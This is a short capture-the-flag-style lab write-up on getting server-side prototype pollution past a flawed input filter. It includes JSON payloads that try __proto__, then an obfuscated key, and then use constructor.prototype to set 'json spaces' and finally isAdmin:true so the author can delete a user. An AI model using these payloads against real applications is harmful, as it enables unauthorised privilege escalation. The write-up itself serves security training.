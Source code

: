 # Bypassing flawed input filters for server-side prototype pollution
So - first, I wanted to see if I could see a change in behavior when sending a proto object.
```json
{
[...]
	"__proto__":{
        "json spaces":1
    }
}
```
This yielded nothing though. Then I tired obfuscating the proto name in case it just removed `__proto__` from the name.
```json
{
[...]
	"__pr__proto__oto__":{
        "json spaces":1
    }
}
```
This got reflected back to me as a literal named "__pr__proto__oto__" which indicated that this is not an option. Then I tried Adding a proto inside another object - but this did nothing. Then I moved on to try the constructor object instead - this worked. First I managed to pollute `json spaces`
```json
{
	"constructor":{
        "prototype" :  {
            "json spaces": 1
        }
    }
}
```
Then I polluted the isAdmin object.
```json
{
	"constructor":{
        "prototype" :  {
            "isAdmin":true
        }
    }
}
```
I could then delete the Carlos user and solve the lab.